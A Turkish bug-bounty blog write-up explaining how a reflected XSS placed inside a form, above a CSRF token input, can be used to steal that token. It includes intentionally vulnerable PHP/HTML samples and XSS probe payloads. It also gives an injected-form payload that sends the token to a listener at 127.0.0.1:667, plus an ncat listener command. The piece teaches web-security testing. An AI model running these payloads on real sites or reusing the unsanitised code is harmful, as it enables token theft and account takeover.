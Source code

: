 ```yaml
---
title: 'TR \| Steal CSRF Tokens with simple XSS'
date: 2019-06-27
permalink: /posts/steal-csrf-tokens-with-simple-xss/
tags:
  - xss
  - hack
  - steal csrf tokens
  - csrf bypass
  - csrf
  - bugbounty
  - bug bounty
  - write-up
  - poc
  - vulnerability
excerpt: 'Steal CSRF Tokens with simple XSS'
---
```


Merhaba,
Ben Samet ŞAHİN.  
İki yıldan biraz uzun süredir *Bug Bounty* ile ve toplamda yaklaşık dört yıldır da *Web Uygulama Güvenliği* alanında çalışmalar yürütmekteyim. 

*Bug Hunterlar* olarak biz, Bug Bounty ile uğraşırken pek çok farklı sistem ve farklı güvenlik önlemleri görüyoruz. Amacımız güvenli (gözüken) sistemlerde (gerçek ve etkisi olan) açıklar bulup, onları şirketlere bildirmektir. 


Yaptığımız testlerde bulduğumuz aynı tür açıklar her zaman aynı potansiyel zarara (impact) sahip olmayabiliyor. 

Örneğin;
Kurbana otomatik olarak çıkış yaptıran CSRF açığı (Bu genellikle açık kapsamına bile girmez.) ile kurbana otomatik olarak eposta ve parola değişikliği yaptıran CSRF (*1) açığı elbette aynı zararı veremez.


  

Şimdi, bu yazının konusuna gelelim. Elimizde iki adet XSS (Cross Site Scripting) açığı ve HTML kaynak kodundaki bir *input* tagına yansımış CSRF tokenlerimiz (*2) var. 
  

## Normal XSS Açığı :  
Çirkin bir arama kutusu olduğunu, sitenin kaynak kodlarında CSRF Tokenlerin bulunduğunu ve bir inputun değerini, *GET* isteğindeki *search* parametresinden aldığını görüyoruz. (*3)

```php
<?php 
$benCSRFtoken = "samet";
$printMD5 = md5($benCSRFtoken);
?>
```
```html	
<form>
<input type="hidden" name="CSRFtoken" value="<?php echo $printMD5 ?>">
<input type="text" name="search" value="<?php echo $_GET['search']; ?>">
<input type="submit" value="Submit">
</form>
```


Elimizde şu an için hiçbir açık yok fakat görüyoruz ki *search* parametresi hiçbir sanitizasyon (*4) işlemi yapılmamış. Bu durumda diyebiliriz ki buradan bir XSS açığı çıkabilir. (*5) Açığı bulmamız için GET metoduyla search parametresine bir payload (*6) gönderiyoruz ;
`"><h1>xss`  gönderdik ve kaynak kodunu inceledik : 

<img src="/images/Blog-1.png">


Evet, başarılı bir şekilde valuenin tırnaklarını kapattık ve artık kendi HTML kodumuzu site üzerinde çalıştırabileceğimizi gördük. Şimdi XSS kanıtı için JavaScript kodunu çalıştırmamız gerekiyor. Bu seferki açık kodumuz ;
`"><script>alert(1)</script>` (*7) gönderdik ve kaynak kodunu inceledik :

<img src="/images/Blog-2.png">


XSS açığını kanıtlamış olduk. Bu normal bir XSS saldırısıydı ve HTML ve JavaScript kodu çalıştırmak dışında pek de bir şey yapamadık.


## Kritik XSS Açığı : 
Normal XSS açığında gördüğümüz sayfayla aynı işlemi yapmasına rağmen inputların sırasının farklı olduğu bir sayfa. İlk açıkta gönderdiğimiz açık kodlarının bu sitede de çalıştığını görebiliyoruz. 

```php
<?php 
$benCSRFtoken = "samet";
$printMD5 = md5($benCSRFtoken);
?>
```
```html
<form>
<input type="hidden" name="search" value="<?php echo $_GET['search']; ?>">	
<input type="hidden" name="CSRFtoken" value="<?php echo $printMD5 ?>">
<input type="submit" value="Submit">
</form>
```



**Trick zamanı :**  
Örneklerle de gördüğümüz gibi iki tane XSS ve input taglarına yansıtılmış CSRF tokenlerini gördük. Eğer `<form>` tagı ve CSRF tokeninin yansıtılmış olduğu input tagının arasında XSS açığına sahipseniz, CSRF tokenlerini de çalabilirsiniz. Bu gerçek ve daha önce pek çok kez karşılaştığım bir senaryo ama Sadece Kritik XSS açığında işe yarar. Neden mi ?

- Çünkü HTML dilinde değişken tanımlayıp sonra kullanma gibi bir ihtimaliniz yoktur. Yani yukarıda bir CSRF Tokenli input varsa ve siz aşağıdaki tagda kod çalıştırabiliyorsanız, o CSRF Tokenine XSS açığı ile erişemezsiniz. (*8)

-  Yukarıda da değindiğim gibi `<form>` ve `</form>` tagları arasında ve CSRF Token'in yansıtılmış olduğu `<input>` tagının üstünde çalışan bir XSS açığına olmanız gerekmektedir. Eğer bu ikisine de sahipseniz CSRF tokenlerini rahatlıkla çalabilirsiniz.



**O zaman exploit edelim :**  
Öncelikle XSS açığıyla CSRF tokenlerini çalabilmek için güzel bir payload yazmamız gerekiyor. Paylaodımızın  mantığı şu olmalı : 
- Daha önce açılmış olan formu kapat : `"></form>`
- Yeni bir form aç ve action (*9) eventine dinlediğin ip ve port'u gir (*10) : `"></form><form method="GET" action="http://127.0.0.1:667/bla.html">`
- Ncat ile seçili portu (667) dinle : `ncat -nlvp 667`
- Kullanıcıyı butona tıklat ve loglardan CSRF Token'ini çek : `| grep CSRF`


Exploit videosu burada :
<video width="500" controls>
  <source src="/files/Blog-1.webm" type="video/mp4">
</video>




**SONUÇ :**  
Değerli içerik taşıyan input tagının ve açıklı input tagının sırası bile bir açığın zararını arttıracak kadar önemli olabiliyor. Bu yüzden manuel testler yapmanız ve bunun gibi trickleri deneyerek öğrenmeniz çok önemli. Deneyebilmeniz için Github'a XSS açıklı 2 dosyayı da koyuyorum. Kendi tricklerimi ve işinize yarayabilecek trickleri paylaştığım Twitter ve LinkedIn hesaplarımdan bana ulaşabilirsiniz. 


[Github](https://github.com/sametsahinnet/XSS-Blog-Post)

  ----

***1** :
Bu açık hakkında yazımı okuyabilirsiniz : https://sametsahin.net/posts/account-takeover-via-reset-password/

***2** :
CSRF açığının oluşmasını engellemek için her istek veya kullanıcıya göre değişen uzun ve rastgele değerdir. Bu tokenlerin olmadığı durumlarda CSRF açığı meydana gelebilir.

***3** :
Bu kısım temel Web bilgisine dayandığı için Google'dan bulabilirsiniz.

***4** :
Sanitizasyon, diğer adıyla filtreleme işlemleri, kullanıcıdan direkt olarak alınan girdilerin, açıklara dönüşmesini engellemek için kullanılan güvenli kod yazma tekniğidir. Pek çok açık gerekli sanitizasyon işleminin yapılmaması veya yeterince kapsamlı olmamasından kaynaklanır.

***5** :
Elbette XSS çıkar bu doğru. Yanlış olan oradan sadece XSS çıkacağı düşüncesidir. Özellikle bu işlere yeni başladıysanız sadece bir açık bulmaya çalışırsınız. Yapmanız gereken bir açıktan en fazla ne kadar ileriye gidebileceğinizi denemektir. Herkes XSS bulabilir ama sizin farkınız XSS'ten CSRF'e gitmenizdir.

***6** :
Payload, açıkları bulmak ve sömürmek için hacker tarafından yazılan kodlardır. Payloadlara, açık kodları diyebiliriz. Ve payloadlar yeşil renkle ekrandan hızlıca akıp gitmez :)

***7** :
Normalde böyle bir payload çok az yerde çalışır. Payloadlarınızın kalitesini arttırmanız için elle yazmalı ve her tuşun kaynak kodunda yansımış olduğu yerlere dikkatlice bakmalısınız. Yani her deneyişinizde websitenin yanıtını kontrol etmelisiniz.

***8** :
Hayır, erişebilirsiniz. Ama bunun ihtimali çok düşüktür. JavaScript kullanarak input içinde yer alan değerleri ekrana basabilirsiniz. Fakat bunun için uzun ve içinde `<script>` tagının kullanılmış olduğu bir payload yazmak zorundasınız. Ve ödül verecek kadar büyük tüm şirketler o `<script>` tagını gördüğü anda sizi engeller. Bu yüzden bulsanız bulsanız küçük yerlerde bulursunuz ve o küçük yerler de küçük olduğu için CSRF token zaten kullanmamış olur ;)

***9** :
HTML'de form tagı açıldığı zaman bir de onu kapatmanız gerekir. Biz kapanmış form (`</form>`) tagı enjekte ettiğimiz zaman görüntü şu şekilde olur : 


```html
<form>
<input type="hidden" name="search" value="query"></form>">
<input type="hidden" name="CSRFtoken" value="2e47d7f81970b3bb09d249a7de385dbc">
<input type="submit" value="Submit">
</form>
```

Enjekte ettiğimiz form tagı ile bir adet tamamen kapatılmış ve bir adet de açılış tagı eksik olan `</form>` tagımız olur. O zaman açılış tagımızı payloadımıza ekliyoruz ve son durumda iki adet form'umuz oluyor : 

```html
<form>
<input type="hidden" name="search" value="query">
</form>
```
ve
```html
<form>">
<input type="hidden" name="CSRFtoken" value="2e47d7f81970b3bb09d249a7de385dbc">
<input type="submit" value="Submit">
</form>
```

Baştan beri amacımız CSRF Tokeni içeren form'u kontrol edebilmekti. Action kısmını değiştirdiğimiz anda artık CSRF Tokeni içeren her istek bizim loglarımıza düşecek ve oradan okuyabileceğiz.

***10** :
CSRF Token'ine loglardan erişebilmemiz için logların bizde olması gerekir. Bu yüzden kendi localimizde rastgele bir portu dinliyoruz. Bu işlemi `ncat` ile yapabilirsiniz : 

`ncat -nlvp 667`





Değerli zamanınız için teşekkür ederim.  
Bol açıklar :)
